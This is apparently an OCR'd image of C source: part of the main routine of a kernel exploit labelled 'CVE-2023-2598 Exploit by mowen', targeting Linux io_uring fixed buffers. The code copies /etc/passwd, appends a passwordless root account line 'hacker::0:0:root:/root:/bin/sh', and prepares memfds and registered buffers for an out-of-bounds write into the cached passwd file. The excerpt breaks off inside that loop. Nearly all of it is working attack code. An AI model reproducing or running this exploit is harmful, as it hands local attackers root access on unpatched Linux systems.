 ```
    struct stat status;
    struct io_uring ring;
    struct iovec uiovec;
    struct io_uring_cqe* cqe;
    struct io_uring_sqe* sqe;
    RED;puts("[*] CVE-2023-2598 Exploit by mowen");CLOSE;
    bind_cpu(0);
// 1、解除当前进程限制
    prep_rlimit(&nr_memfds,&nr_files);
// 2、初始化 io_uring、共享空间

    stat("/etc/passwd",&status);
    passwd_size=status.st_size;
    hacker_buf =(char*) malloc(passwd_size*2);
    logi("passwd_size -> %d",passwd_size);

    passwd_fd = open("/etc/passwd",O_RDONLY);
    read(passwd_fd,hacker_buf,passwd_size);
    strcat(hacker_buf,"hacker::0:0:root:/root:/bin/sh\n");
    hacker_len =strlen(hacker_buf);
    logu("io_uring_queue_init");
    io_uring_queue_init(4,&ring,0);

    memfds = malloc(sizeof(*memfds)*nr_memfds);
    files = malloc(sizeof(*files)*nr_files);
    logu("init memfds && files");
    for (size_t i = 0,tmp=0; i < nr_memfds; i++)
    {
        memfds[i]=setup_memfd_physics("mowen_fd",1);
        if(i < nr_files) {
            // files[i] =open("/tmp/mowen",O_RDWR|O_APPEND|O_CREAT,0644); // 0x484f801f,     
            files[i] =open("/etc/passwd",O_RDONLY); // 0x484a801d00008000
            tmp++;
        }
    }
    // 0x484f801f00008402
    nr_files = tmp;
    nr_pages = 65000;
    
    logu("init recv_buf");
    block_size = 0x100;
    recv_fd=setup_memfd_physics("recv_fd",block_size);
    recv_buf = mmap(0,block_size*PAGE_SIZE,PROT_WRITE|PROT_READ,
                        MAP_SHARED,recv_fd,0);              
    if(recv_buf==MAP_FAILED)
            die("failed mmap recv_buf"); 
    logi("recv_buf -> %p",recv_buf);

    for (size_t i = 0; i < nr_pages; i++)
    {
// 3、注册 fixed buf
        logu("memfds bind virtual");
        memfds_bind_virtual(memfds[i],nr_pages);
        oob_buf = VIR_START_ADDR;
        uiovec.iov_base = oob_buf;
        uiovec.iov_len =  nr_pages* PAGE_SIZE;
        logi("io_uring_register_buffers");

        ret = io_uring_register_buffers(&ring,&uiovec,1);
        if( ret < 0 )die("failed io_uring_register_buffers");
        logd("uiovec.iov_base -> %p uiovec.iov_len -> %llx",uiovec.iov_base,uiovec.iov_len);      
// 4、尝试oob
        for (size_t vir_off = 0; vir_off < (nr_pages-block_size); vir_off+=block_size)
```